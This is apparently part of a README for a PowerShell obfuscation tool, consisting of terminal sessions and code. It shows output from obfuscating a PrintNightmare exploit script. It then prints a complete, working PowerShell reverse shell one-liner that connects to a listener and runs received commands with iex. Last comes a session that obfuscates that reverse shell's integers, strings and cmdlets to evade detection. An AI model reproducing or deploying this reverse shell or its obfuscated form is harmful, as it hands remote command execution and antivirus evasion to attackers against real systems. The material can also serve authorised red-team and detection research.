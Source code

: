 ```shell
[-] -DLL is now -dNr
[-] -ModuleName is now -jd
[-] -Module is now -tu3EI0q1XsGrniAUzx9WkV2o
[-] -Type is now -fjTOTLDCGufqEu
[-] -FullName is now -0vEKnCqm
[-] -EnumElements is now -B9aFqfvDbjtOXPxrR
[-] -Bitfield is now -bFUCG7LB9gq50p4e
[-] -StructFields is now -xKryDRQnLdjTC8
[-] -PackingSize is now -0CB3X
[-] -ExplicitLayout is now -YegeaeLpPnB
[*] Removing comments
[*] Writing payload to o-printnightmare.ps1
[*] Done

PS /home/tristram> 
```

### PowerShell Reverse Shell

```powershell
$client = New-Object System.Net.Sockets.TCPClient("127.0.0.1",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```shell
┌──(tristram㉿kali)-[~]
└─$ pwsh 
PowerShell 7.1.3
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

PS /home/tristram> . ./Invoke-PSObfuscation.ps1                                                                            
PS /home/tristram> Invoke-PSObfuscation -Path ./revshell.ps1 -Integers -Cmdlets -Strings -ShowChanges

     >> Layer 0 Obfuscation
     >> https://github.com/gh0x0st

[*] Obfuscating integers
    Generator 2 >> 4444 >> $(0-0+0+0-0-0+0+4444)
    Generator 1 >> 65535 >> $((65535))
[*] Obfuscating strings
    Generator 2 >> 127.0.0.1 >> $([char](16*49/16)+[char](109*50/109)+[char](0+55-0)+[char](20*46/20)+[char](0+48-0)+[char](0+46-0)+[char](0+48-0)+[char](0+46-0)+[char](51*49/51))
    Generator 2 >> PS  >> $([char](1*80/1)+[char](86+83-86)+[char](0+32-0))
    Generator 1 >> >  >> ([string]::join('', ( (62,32) |%{ ( [char][int] $_)})) | % {$_})
[*] Obfuscating cmdlets
    Generator 2 >> New-Object >> & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_})
    Generator 2 >> New-Object >> & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_})
    Generator 1 >> Out-String >> & (("Tpltq1LeZGDhcO4MunzVC5NIP-vfWow6RxXSkbjYAU0aJm3KEgH2sFQr7i8dy9B")[13,16,3,25,35,3,55,57,17,49] -join '')
[*] Writing payload to /home/tristram/obfuscated.ps1
[*] Done
```
